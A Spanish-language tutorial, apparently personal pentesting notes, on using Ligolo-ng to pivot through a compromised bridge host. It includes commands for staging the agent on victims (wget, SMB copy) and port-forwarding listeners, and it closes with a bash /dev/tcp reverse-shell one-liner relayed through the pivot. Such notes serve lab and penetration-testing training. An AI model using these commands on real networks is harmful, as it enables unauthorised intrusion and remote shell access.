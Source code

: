 # Set-up de la utilidad

>Descargar agente y proxy desde el repo de GitHub: https://github.com/nicocha30/ligolo-ng/releases

>El agente será el que empleemos en las máquinas puente y el proxy en la máquina atacante.

>Para emplearlo deberemos crear una interfaz de red para Ligolo:

```bash
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
```
# Uso

>Agregar una ruta al segmento que queremos llegar mediante Ligolo:

```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```

>Activar el proxy en el lado atacante:

```bash
chmod +x ligoloProxy
./ligoloProxy -selfcert
```

>Transferir el archivo agent a la máquina puente a la que debemos tener acceso, **no necesita** de **privilegios elevados** para correr:

```bash
scp ligoloAgent usuario@IP:/tmp --> Mediante SSH
------------------------------------------------
python3 -m http.server 80 --> Atacante
wget http://IP:puerto/ligoloAgent --> Víctima
------------------------------------------------
impacket-smbserver smbFolder $(pwd) -smb2support --> Atacante
copy \\IP\ligoloAgent ligoloAgent --> Víctima Windows
```

>Darle permisos de ejecución al agente:

```bash
chmod +x ligoloAgent
```

>Establecer una conexión entre el agente y el proxy de la máquina atacante:

```bash
./agent -connect IP:puerto -ignore-cert
```

>Si ha funcionado, deberíamos de ver en la ejecución del proxy que un nuevo agente se ha unido y te dirá información acerca del usuario, hostname e dirección IP.

>Creación del túnel entre las sesiones desde la consola de ligolo en el proxy:

```ligolo-ng
session
Elegir sesión entre todas las que salgan con su número y darle a Enter
start
```

>Ahora deberíamos poder tener acceso al segmento de red que anteriormente no podríamos tener acceso mediante la máquina atacante.

>Ahora el único problema es que la máquina víctima no tiene acceso a nosotros aunque nosotros si lo tengamos hacia esta. Esto es un problema para compartido de archivos y reverse shells.

>Para ello deberíamos de realizar un port forwarding:

```ligolo-ng
listener_add --addr 0.0.0.0:puerto --to 127.0.0.1:puerto
listener_list
```

>Esto lo que hará es que en la sesión que nos encontremos nos traeremos el puerto especificado a nuestro puerto deseado en el localhost. 

### Ejemplo práctico de esto con una reverse shell:

>Máquina Atacante --> 10.10.0.1
>Máquina Puente --> 10.10.0.2 192.168.1.1
>Máquina Víctima --> 192.168.1.2

>Máquina Atacante en la sesión de la máquina puente dentro de Ligolo-NG:

```ligolo-ng
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:443
```

```bash
nc -nlvp 443
```

>Máquina Víctima:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.1/8080 0>&1'
```

>El tráfico de la reverse shell sería redirigido por el port forwarding hacia el puerto 443 de la máquina atacante y se podría entablar la reverse shell.
